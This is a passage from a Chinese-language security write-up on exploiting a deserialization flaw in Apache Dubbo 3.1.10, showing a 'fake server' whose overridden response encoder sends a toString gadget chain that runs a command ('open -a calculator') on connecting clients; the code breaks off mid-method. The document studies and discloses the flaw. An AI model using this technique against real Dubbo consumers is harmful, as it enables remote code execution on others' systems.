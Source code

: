 [Dubbo 编解码那些事\_decodeablerpcresult-CSDN 博客](https://blog.csdn.net/vivo_tech/article/details/115633937) 可知 `DecodeableRpcResult` 这个类是在 dubbo 服务的消费者接收提供者方发来的响应时解码使用。  
**利用方式一：fake server**  
测试版本：Apache Dubbo 3.1.10  
我们知道 dubbo 支持多种序列化方式，对于 dubbo 协议来说默认为 hessian2，其他如下所示（hessian2 对应 id 为 2，也可以通过 `Serialization.getContentTypeId()` 获得）  
[![](assets/1703064279-ed295015a1a83facfe5c05015d198e0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219143052-2812545a-9e38-1.png)  
由官方文档可知，这个协议如何配置完全由服务方定的，因此完全可以做一个 fake server 来诱导客户端主动连接。  
[![](assets/1703064279-f62b3e70204b127e0999e82ac2f6ce0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219143144-473e7502-9e38-1.png)  
因此我们可以重写服务端编码响应信息函数的部分逻辑，主动构造一个用于上面提到的 toString 调用链对象来替代 Throwable 实例 th。  
具体重写位置在 `org.apache.dubbo.rpc.protocol.dubbo.DubboCodec#encodeResponseData(org.apache.dubbo.remoting.Channel, org.apache.dubbo.common.serialize.ObjectOutput, java.lang.Object, java.lang.String)`

```plain
@Override
    protected void encodeResponseData(Channel channel, ObjectOutput out, Object data, String version) throws IOException {
        Result result = (Result) data;
        // currently, the version value in Response records the version of Request
        boolean attach = Version.isSupportResponseAttachment(version);
//         Throwable th = result.getException();   
         Object th = null;  // 利用点：用于 toString 的 gadget chain
         try {
                th = getThrowablePayload("open -a calculator");
            } catch (Exception e) {

            }

        if (th == null) {
            Object ret = result.getValue();
            if (ret == null) {
                out.writeByte(attach ? RESPONSE_NULL_VALUE_WITH_ATTACHMENTS : RESPONSE_NULL_VALUE);
            } else {
                out.writeByte(attach ? RESPONSE_VALUE_WITH_ATTACHMENTS : RESPONSE_VALUE);   
                out.writeObject(ret);   
            }
        } else {
            out.writeByte(attach ? RESPONSE_WITH_EXCEPTION_WITH_ATTACHMENTS : RESPONSE_WITH_EXCEPTION);
//            out.writeThrowable(th); 
            out.writeObject(th);    // 直接序列化对象即可
        }

        if (attach) {
            // returns current version of Response to consumer side.
            result.getObjectAttachments().put(DUBBO_VERSION_KEY, Version.getProtocolVersion());
```